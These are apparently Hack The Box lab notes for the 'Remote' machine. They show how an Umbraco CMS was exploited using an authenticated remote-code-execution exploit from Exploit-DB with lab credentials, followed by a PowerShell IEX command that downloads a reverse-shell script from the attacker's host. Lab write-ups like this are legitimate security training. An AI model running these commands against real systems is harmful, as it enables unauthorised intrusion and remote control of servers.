




# 15 - HTTP


# Index page




# /Contact redirects to a login page




# Umbraco



# See `20 - NFS.md` for the username and password


# Code execution
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/remote/exploit]                                                                                                                                          
└──╼ $ searchsploit -m aspx/webapps/49488.py                                                                                                                                                  
  Exploit: Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                                                                                                                         
      URL: https://www.exploit-db.com/exploits/49488                                                                                                                                          
     Path: /usr/share/exploitdb/exploits/aspx/webapps/49488.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators                                                                                             
                                               
Copied to: /home/user/htb/remote/exploit/49488.py
┌─[user@parrot]─[10.10.14.18]─[~/htb/remote/exploit]
└──╼ $ python3 49488.py -u admin@htb.local -p 'baconandcheese' -i http://10.10.10.180 -c "whoami"
iis apppool\defaultapppool
```


# Shell

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/remote/exploit]
└──╼ $ python3 49488.py -u admin@htb.local -p 'baconandcheese' -i http://10.10.10.180 -c "powershell" -a "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.18/Invoke-PowerShellTcp.ps1')"
```

* -u username
* -p password
* -i ip
* -c command
* -a arguments


